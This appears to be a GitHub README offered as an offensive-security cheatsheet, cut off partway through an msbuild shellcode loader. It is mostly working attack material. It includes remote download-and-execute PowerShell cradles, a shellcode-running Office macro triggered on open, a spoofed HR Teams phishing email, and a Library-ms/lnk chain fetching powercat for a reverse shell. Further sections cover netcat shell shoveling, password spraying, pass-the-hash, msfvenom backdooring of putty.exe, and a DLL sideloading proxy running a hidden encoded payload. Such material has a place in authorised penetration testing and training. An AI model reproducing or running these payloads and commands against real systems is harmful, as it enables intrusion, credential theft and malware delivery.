




# Toolbox
Offensive Security Toolbox + Cheatsheet

#### Windows Attacker Tooling Setup Script
``` powershell
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/cdnet01/Toolbox/refs/heads/main/setup.ps1'))
```
^ this script is useful for setting up new windows attacker machines

## Recon and Scanning

<details>
<summary> google dorking </summary>

https://www.exploit-db.com/google-hacking-database
</details>

<details>
<summary> anymailfilder.com </summary>

useful for finding company email naming convention. 
</details>

<details>
<summary> gathercontacts </summary>

burpsuite extention that scrapes names from linkedin. requires manually searching for: 

`site:linkedin.com/in "company name"`
</details>

<details>
<summary> dnsrecon </summary>

``` bash
# enumerate dns records for a range, specifying the dns server.
dnsrecon -d domain.tld -n 8.8.8.8
```
</details>

<details>
<summary> knock.py </summary>

``` bash
# brute force subdomains, specifying a dns server
knockpy -d domain.com --bruteforce --dns 8.8.8.8

# conduct "recon" against a domain and save results
knockpy -d domain.com --recon --save foldername
```
</details>

<details>
<summary>dirb, gobuster, dirbuster</summary>

``` bash
gobuster dir -u http://192.168.50.242 -w /usr/share/wordlists/dirb/common.txt -o mailsrv1/gobuster -x txt,pdf,config
```
</details>

<details>
<summary> sublist3r </summary>

``` bash
# brute force subdomains
sublist3r -d domain.com
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# brute force subdomains via host header, filtering out 404 responses.
ffuf -w subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 404
```
</details>

<details>
<summary> masscan </summary>

``` bash
# scan entire /8 range on all ports. set rate to a fast but "safe" limit and output as binary (saves space)
masscan -p 0-65535 --rate 15000 10.0.0.0/8 -oB filename.bin

# convert binary output into a greppable format
masscan --open --readscan filename.bin -oG filename.gnmap

# from here, you can grep for live hosts, open ports, and more.
grep /open/ filename.gnmap | cut -d ' ' -f 2 | sort -uV > livehosts.txt
```
</details>

<details>
<summary> nmap </summary>

``` bash
# without using host discovery, SYN connect scan on range and only output open ports.
sudo nmap -Pn -sT --open 10.140.21.1-255

# good catch all, uses all default scripts, gets the version, and saves the output 
sudo nmap -sC -sV -oN mailsrv1/nmap 192.168.50.242

# full service scan on a /24 range. output in all formats (grep-able, xml, binary)
sudo nmap -sV 10.10.20.0/24 -oA filename

# view all NSE scripts
ls /usr/share/nmap/scripts/*.nse

# run smb discovery
sudo nmap -Pn -p445 --open --script=smb-os-discovery.nse 10.140.13.27

# privide a file containing rfc1918 rangesm, then DNS reverse lookup and output into grep-able file
namp -iL rfc1918.txt -sL --dns-servers 10.10.14.98 -oG
```
</details>

<details>
<summary> eyewitness </summary>

``` bash
# feed an xml list of hosts to be scanned for webpages
EyeWitness.py --web -x filename.xml

# feed a newline separated list of domains 
eyewitness --web -f domains.txt --threads 10
```
</details>

<details>
<summary> smtp enumeration </summary>

``` bash
# connect to a host running smtp
nc -nv 192.168.50.8 25

# ask the smtp server to verify an email address
VRFY root
```
</details>

<details>
<summary> snmp enumeration </summary>

``` bash
# scan for snmp (runs on UDP)
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# brute force a list of ips
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips
onesixtyone -c community -i ips

# check a specific host
snmpwalk -c public -v1 -t 10 192.168.50.151
```
</details>

## Phishing

<details>
<summary> MS Office </summary>

In order to evade detection, calling Win32 APIs from VBA can be a powerful method of leveraging VBA outside of the more typical malicious macros. 

First we can grab our shellcode from msfvenom 

``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
```

We can then drop this shellcode into a VBA macro. To work as expected, this requires a matching 64-bit multi/handler in Metasploit with EXITFUNC set to "thread" and a matching IP and port number.

``` VBA
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As LongPtr
    
    buf = Array(252,72,131,228,240,232,204,0,0,0,65,81,65,80,82,72,49,210,81,101,72,
    ...
    06,0,89,187,224,29,42,10,65,137,218,255,213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

```

</details>

<details>
<summary> Calendar Invites </summary>

The iCalendar (ICS) format is a widely accepted standard and is essentially a plain text file that follows a specific syntax to represent calendar events.

We can create a .ics template 

``` ics
BEGIN:VCALENDAR
PRODID:Microsoft Exchange Server 2022
VERSION:2.0
CALSCALE:GREGORIAN
METHOD:REQUEST
BEGIN:VTIMEZONE
TZID:UTC
BEGIN:STANDARD
DTSTART:20241010T073659Z
TZOFFSETFROM:+0000
TZOFFSETTO:+0000
END:STANDARD
END:VTIMEZONE
BEGIN:VEVENT
DTSTART;TZID=UTC:20241010T073059Z
DTEND;TZID=UTC:20241010T083059Z
DTSTAMP:20241010T034159Z
ORGANIZER;CN=Peter:mailto:peter@corp1.com
UID:FIXMEUID20241010T034159Z
CREATED:20241010T034159Z
DESCRIPTION:http://meeting.corp1.com
LAST-MODIFIED:20241010T034159Z
LOCATION:Microsoft Teams Meeting
SEQUENCE:0
STATUS:CONFIRMED
SUMMARY:HR meeting
TRANSP:OPAQUE
END:VEVENT
END:VCALENDAR
```

and craft an email using html that resembles a microsoft teams invite 

``` html
<p class=MsoNormal style='background:white'><span style='color:black'>We are reaching out to inform you of an urgent meeting scheduled by the HR Department that requires your immediate attention.<u1:p>&nbsp;<o:p></o:p></span></u1:p></p>
<p class=MsoNormal style='background:white'><span style='color:#5F5F5F'>________________________________________________________________________________</span><span style='mso-fareast-font-family:"Times New Roman";color:black'> <u1:p>&nbsp;</u1:p></span><span style='color:black'><o:p></o:p></span></p>
<p class=MsoNormal style='background:white'><span style='font-size:18.0pt; font-family:"Segoe UI",sans-serif;color:#252424'>Microsoft Teams meeting</span><span style='font-family:"Segoe UI",sans-serif;color:#252424'> <u1:p>&nbsp;</u1:p></span><span style='color:black'><o:p></o:p></span></p>
<p class=MsoNormal style='background:white'><b><span style='font-size:10.5pt; font-family:"Segoe UI",sans-serif;color:#252424'>Join on your computer or mobile app</span></b><b><span style='font-family:"Segoe UI",sans-serif; color:#252424'> <u1:p>&nbsp;</u1:p></span></b><span style='color:black'><o:p></o:p></span></p>
<p class=MsoNormal style='background:white'><span style='font-family:"Segoe UI",sans-serif; color:#252424'><a href="[ATTACKER_URL]" target="_blank"><span style='font-size:10.5pt;font-family:"Segoe UI Semibold",sans-serif; color:#6264A7'>Click here to join the meeting</span></a> <u1:p>&nbsp;</u1:p></span><span style='color:black'><o:p></o:p></span></p>
<p class=MsoNormal style='background:white'><span style='font-family:"Segoe UI",sans-serif; color:#252424'><a href="[ATTACKER_URL]" target="_blank"><span style='font-size:10.5pt;color:#6264A7'>Learn More</span></a> | <a href="[ATTACKER_URL]" target="_blank"><span style='font-size:10.5pt;color:#6264A7'>Meeting options</span></a><u1:p>&nbsp;</u1:p></span><span style='color:black'><o:p></o:p></span></p>
<p class=MsoNormal style='background:white'><span style='color:#5F5F5F'><span style='opacity:.36'>________________________________________________________________________________</span></span><span style='mso-fareast-font-family:"Times New Roman";color:black'> <u1:p>&nbsp;</u1:p></span><span style='color:black'><o:p></o:p></span></p>
```

Then we can send the email using an SMTP server that we have setup, spoofing the sender's address

``` bash
sendEmail -s 192.168.50.121 -t victim@corp1.com -f attacker@corp1.com -u "Urgent HR meeting"  -o message-content-type=html -o message-file=./email.html -a iCalendar.ics
```

</details>

<details>
<summary> Website Cloning </summary>

We’ll use -E to adjust file extensions to match MIME types, -k to convert links to local copies, and -K to save originals with a .orig extension. With -p, we’ll grab all assets needed to view the page. The -e robots=off option ignores robots.txt. We’ll allow external host downloads with -H, but restrict them to the zoom.us domain via -Dzoom.us. Finally, -nd saves everything in a flat directory in the current working directory.

```bash
wget -E -k -K -p -e robots=off -H -Dzoom.us -nd "https://zoom.us/signin#/login"
```
</details>

<details>
<summary> config.Library-ms </summary>

setup a webdav listener on the attacking machine

```bash 
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

create a file named 'config.Library-ms' with the following contents:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

right click on a windows machine to create a .lnk file, entering the following into the input field and name it 'automatic_configuration'
``` powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

Next, we'll start the Python3 web server on port 8000 to serve powercat.ps1, WsgiDAV for our WebDAV share to serve the the automatic_configuration.lnk and config.Library-ms files, and a Netcat listener on port 4444 to catch the reverse shell.

```bash
# download powercat
wget https://github.com/besimorhino/powercat/raw/refs/heads/master/powercat.ps1

python3 -m http.server
```

copy the automatic_configuration.lnk and config.Library-ms to WebDAV directory. In a normal assessment we would most likely send the library file via email but for this example, we'll use the \\192.168.50.195\share SMB share to simulate the delivery step.

To upload the library file to the SMB share, we'll use smbclient with the -c parameter to specify the put config.Library-ms command. Before we execute smbclient, we need to change our current directory to the library file's directory. We'll also delete the previously created test.txt file from the WebDAV share.

``` bash
cd ~/webdav

smbclient //192.168.50.195/share -c 'put config.Library-ms'
```

if sending payload via an SMTP server

```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```


</details>

## Password Attacks

Be careful with account lockouts, and always check lockout policy with:

```bat
net accounts
```

<details>
<summary> cewl.rb </summary>

Use CeWL to spider a target website and build a unique wordlist to use for cracking
</details>

<details>
<summary> hydra </summary>

``` bash
# trim word list with hydra's pw-inspector. min password length set to 8, at least 3 critera must be met, and set criteria to (l) lowercase, (u) uppercase, (n) numbers, (p) printable chars, (s) special chars.
pw-inspector -i breachdata.txt -o trimmed.txt -m 8 -c 3 -lunps

# password spray SMB on many hosts using username file
hydra -L users.txt -p 'p@ssw0rd' -M windows-hosts.txt smb2

# password spray a domain controller
hydra -L users.txt -p Summer2025! -m workgroup:{name} 10.140.10.2 smb2

# check valid creds against a list of hosts
hydra -m workgroup:{company} -l username -p password -M smbservers.txt smb2

# attack ssh
hydra -L users.txt -P passwords.txt ssh://102.168.1.38
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# find usernames matching on a response containing "username already exists"
ffuf -w users.txt -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -mr "username already exists"

# brute force web login creds
ffuf -w users.txt:W1,passwords.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -fc 200
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate password and user list against a desired service (in this case, smb)
nxe.exe -u "C:\usernames.txt" -p "C:\passwords.txt" -d domain.com --continue-on-success --no-bruteforce 10.20.13.4
```
</details>

<details>
<summary> hashcat </summary>

Effective rulesets can be found in ```/usr/share/hashcat/rules```

``` bash
# use some rules against a password list 
hashcat -r demo2.rule --stdout demo.txt

# crack kerberos TGS-REP hash (output from GetUserSPNs.py) and append 4 digits to the passwords 
hashcat -m 13100 -a 6 hashfile.txt passwordlist.txt ?d?d?d?d
```
hash types can be found at: https://hashcat.net/wiki/doku.php?id=example_hashes

useful hash modes (-m value):

- 1000: NTLM
- 5600: NTLMv2-SSP
- 13100: Kerberos RC4 TGS Ticket (denoted by $krb5tgs$23$)

</details>

<details>
<summary>AD Password Spray</summary>

Conducts password spraying via LDAP

``` bat
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```
</details>

<details>
<summary>crackmapexec</summary>

Authenticates via SMB and notifies you if a valid user is a local admin by adding (Pwn3d!) to the output

``` bash
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

# using pass the hash 
crackmapexec smb 192.168.50.75 -u paul -H '08d7a47a6f9f66b97b1bae4178747494' -d corp.com --continue-on-success

# list shares
crackmapexec smb 192.168.50.242 -u john -p "dqojcoe#nL" --shares
```
</details>

<details>
<summary>kerbrute</summary>

Conducts password spraying against kerberos, only uses 2 UDP packets to identify a valid pw

``` bat
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
</details>


## Initial Access
Ports of interest

- 22 - SSH
- 135 - WMI (RPC) and DCOM
- 139, 445 - SMB
- 3389 - RDP
- 5985, 5986 - WinRM

<details>
<summary>native WMI interaction</summary>

``` bat
rem using wmic (now depricated)
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

``` powershell
# using powershell
$username = 'jen';

$password = 'Nexus123!';

$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;

$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$options = New-CimSessionOption -Protocol DCOM

$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 

$command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA...'; # base64 encoded powershell reverse shell

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

</details>

<details>
<summary>native WinRM interaction</summary>

``` bat
rem For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

``` powershell
# using powershell
$username = 'jen';

$password = 'Nexus123!';

$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;

$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

New-PSSession -ComputerName 192.168.50.73 -Credential $credential

Enter-PSSession 1

whoami
```
</details>

<details>
<summary>psexec</summary>

in order to use psexec, the user that authenticates to the target machine needs to be part of the Administrators local group. Second, the ADMIN$ share must be available, and third, File and Printer Sharing has to be turned on. the last two are default on modern Windows Server systems.

``` bat
.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

</details>

<details>
<summary> impacket </summary>

```bash 
# connect to mssql server and specify the domain controller ip
mssqlclient.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# connect to smb server
smbclient.py domain.com/username:password@10.13.12.3

# using pass the hash
impacket-smbclient corp.com/dave@192.168.64.72 -hashes ':08d7a47a6f9f66b97b1bae4178747494'

# execute code using the psexec service 
psexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using the smb service
smbexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using wmic
wmiexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# setup an smb listenter, and run a command on a target using captured hash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate rids
nxe.exe smb 10.140.13.3 -u username -p 'password' --rid-brute

# list shares
netexec smb 10.140.13.3 -u username -p 'password' --shares
```
</details>

<details>
<summary> runas </summary>

``` powershell
# (run this as administrator) launch a cmd shell that will execute all network communication with the injected credentials for authentication.
runas.exe /netonly /user:domain.com\username cmd.exe
```
</details>

<details>
<summary> evilwinrm </summary>

``` bash 
evil-winrm -i 10.13.10.3 -u "username" -p "password"
```

</details>


<details>
<summary> xfreerdp </summary>

``` bash
# rdp into a server ignoring any self signed certs
xfreerdp /u:username /p:password /v:10.230.21.12 /cert:ignore /dynamic-resolution

# using pass the hash 
xfreerdp /u:username /pth:hash_goes_here /v:10.230.21.12 /d:corp.com /dynamic-resolution

```
</details>

<details>
<summary> netcat </summary>

``` bash
# open listener for reverse shell on attacker machine
nc -lvp 4444

# shovel the shell from the target to the attacker
nc 192.168.1.31 4444 -e /bin/bash
```
</details>

## Payloads
common payload types: 

1. office macros
2. office auto DDE (default on excel and outlook)
3. Library files 
3. ISO images 
4. zip files (often encrypted)
5. lnk files with rundll32

<details>
<summary> msfvenom </summary>

``` bash 
# view payload formats
msfvenom --list formats

# generate malicious installer file
msfvenom -p windows/meterpreter/reverse_http lhost=ATTACKER_IP lport=8976 -f msi -o setup.msi

# backdoor a legit exe. The binary will still work as usual but execute an additional payload silently.
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=10.209.28.34 lport=4444 -b "\x00" -f exe -o puttyX.exe
```
</details>

<details>
<summary> genisoimage </summary>

``` bash
# place payload inside of an iso container
genisoimage -o installer.iso setup.msi
```
</details>

## Command & Control
<details>
<summary> metasploit </summary>

``` bash
# setup multi handler
use exploit/multi/handler

# set payload 
set PAYLOAD windows/meterpreter/reverse_http

# view config
show options

# allow listener to receive multiple connections without having to restart it
set ExitOnSession false

# meterpreter commands
sysinfo
getuid
ps
# migrate to a new process
migrate -N explorer.exe
# start keylogger
keyscan_start
keyscan_dump
# file control
upload local_filename
download remote_filename
edit remote_filename
```
</details>

<details>
<summary> sliver </summary>

``` bash
# setup an https listener
https 

# generate an exe payload to only run for a specified username
generate --os windows --name filename --limit-username user1 --http LISTENING_ADDR

# generate a dll payload (run dll payload on victim with: regsvr32 filename.dll)
generate --os windows --arch 64bit --format shared --http https://ATTACKER_IP

# view payload 
impants

# view sessions
sessions

# use a session (use first few letters of session id)
use 1b
```
</details>

## Evasion

<details>
<summary> DLL Sideloading </summary>

By packaging a microsoft signed binary that attempts to call DLLs from the current working directory, we can create our own DLL that proxies legeitmate calls to the real DLL, while executing our malicious code. 

Fist, we can use procmon to find microsoft binaries that attempt to load several DLLs from the current working directory.

Then, using this tool (https://github.com/mrexodia/perfect-dll-proxy) we can parse the export table of the original DLL and automatically generates a proxy DLL that exports all the same functions, forwarding each call to the legitimate library. 

``` bash 
python perfect_dll_proxy.py secur32.dll
```

This tool will output a .cpp file with all of the necessary DLL calls proxied. The DllMain() function is currently a stub, and doesn't do anything when the DLL is loaded, so we need to add our payload within the DLL_PROCESS_ATTACH case inside DllMain(). 

Here is an example of executing a PowerShell payload in a hidden window using the CreateProcessA API, which uses a command line parameter documented here (https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)

``` cpp
#include "pch.h"

#include <Windows.h>

#ifdef _WIN64
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\System32\\secur32.dll"
#else
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\SysWOW64\\secur32.dll"
#endif // _WIN64

#pragma comment(linker, "/EXPORT:AcceptSecurityContext=" DLLPATH ".AcceptSecurityContext")
#pragma comment(linker, "/EXPORT:AcquireCredentialsHandleA=" DLLPATH ".AcquireCredentialsHandleA")
#pragma comment(linker, "/EXPORT:AcquireCredentialsHandleW=" DLLPATH ".AcquireCredentialsHandleW")
#pragma comment(linker, "/EXPORT:AddCredentialsA=" DLLPATH ".AddCredentialsA")
#pragma comment(linker, "/EXPORT:AddCredentialsW=" DLLPATH ".AddCredentialsW")
...
#pragma comment(linker, "/EXPORT:TranslateNameW=" DLLPATH ".TranslateNameW")
#pragma comment(linker, "/EXPORT:UnsealMessage=" DLLPATH ".UnsealMessage")
#pragma comment(linker, "/EXPORT:VerifySignature=" DLLPATH ".VerifySignature")

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {
        case DLL_PROCESS_ATTACH:
    {
        STARTUPINFOA si = { 0 };
        PROCESS_INFORMATION pi = { 0 };
        si.cb = sizeof(si);
        si.dwFlags = STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_HIDE;

        CreateProcessA(
            NULL,
            (LPSTR)"cmd.exe /c powershell -ep bypass -enc  KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADIANQAxAC4AMQA1ADEALwByAHUAbgAuAHQAeAB0ACcAKQAgAHwAIABJAEUAWAA=",
            NULL,
            NULL,
            FALSE,
            CREATE_NO_WINDOW,
            NULL,
            NULL,
            &si,
            &pi
        );

    }
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Next, we compile the new x64 Release binary and move the resulting DLL to a directory containing just the microsoft binary. 

To further add to the stealth of this payload, we will make the dll file hidden

``` cmd
attrib +h secur32.dll
```

Then we can package the contents 

``` powershell 
"C:\Program Files\7-Zip\7z.exe" a -tzip onedrive.zip .\OneDrive.exe .\secur32.dll
```

</details>

<details>
<summary> shellter </summary>

Shellter is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software.

``` bash
apt-cache search shellter
sudo apt install shellter
sudo apt install wine
sudo dpkg --add-architecture i386 && apt-get update && apt-get install wine32

# If we are using an ARM processor, we need to a slightly different set of commands.
sudo apt install wine
sudo dpkg --add-architecture amd64
sudo  apt install -y qemu-user-static binfmt-support
sudo apt-get update && apt-get install wine32
```
</details>

<details>
<summary> veil </summary>

``` bash
# use veil to produce payloads, configurable with metasploit
veil 
use evasion 
use powershell/meterpreter/rev_tcp
set lhost 192.168.1.1
set lport 443
generate
```
</details>

<details>
<summary> Powershell Memory Injection </summary>

A basic templated script that performs in-memory injection is shown in the listing below. The script starts by importing VirtualAlloc and CreateThread from kernel32.dll as well as memset from msvcrt.dll. These functions will allow us to allocate memory, create an execution thread, and write arbitrary data to the allocated memory, respectively. We will allocate the memory and execute a new thread in the current process (powershell.exe), rather than a remote one.

``` powershell
# run this within the x86 version of powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

<place shellcode here>

```
Generate powershell reflection shellcode 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection
```

</details>

<details>
<summary> msbuild.exe </summary>

``` powershell
# if msbuild is enabled, it can be used to execute arbitrary shellcode. first, lets find msbuild
ls C:\Windows msbuild.exe -Recurse 2>$null | % FullName

# if found, chose either a 32 bit or 64 bit version. whatever version is chosen, shellcode needs to match. Once you have created your xml build.xml file, you can run it
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\build.xml
```
generate shellcode
``` bash
# generate an msfvenom payload in csharp. this will output a byte format compatible with c#
msfvenom -p windows/meterpreter/reverse_tcp lhost=eth0 lport=9871 -f csharp | tee /tmp/payload.txt

# add the output of msfvenom to the below build.xml file where it says "// PUT SHELLCODE HERE"

# setup your listener 
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 9871
```

build.xml (without placing code on disk)
``` xml
<Code Type="Class" Language="cs" Source="\\19.21.28.12\webdav\calc.cs">
```

build.xml withshellcode
``` xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
 
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
